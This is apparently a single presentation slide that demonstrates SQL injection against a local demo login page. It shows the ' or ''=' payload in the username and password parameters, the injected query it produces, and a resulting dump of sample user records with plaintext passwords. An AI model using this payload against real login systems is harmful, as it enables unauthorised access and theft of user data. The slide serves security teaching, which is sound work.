

# Injecting ' or ''='
Injecting ' or ''='
http://localhost:8080/login
?username=' or ''='&password=' or ''='
Generates the following malicious SQL
select * from users where
username = '' or ''='' and password = '' or ''=''

Inadvertently returning sensitive data
[	{"id": 1,"username": "alice","password": "alice"},
{"id": 2,"username": "bob","password": "bob"},
{"id": 3,"username": "charlie","password": "charlie"},
{"id": 4,"username": "dan","password": "dan"}]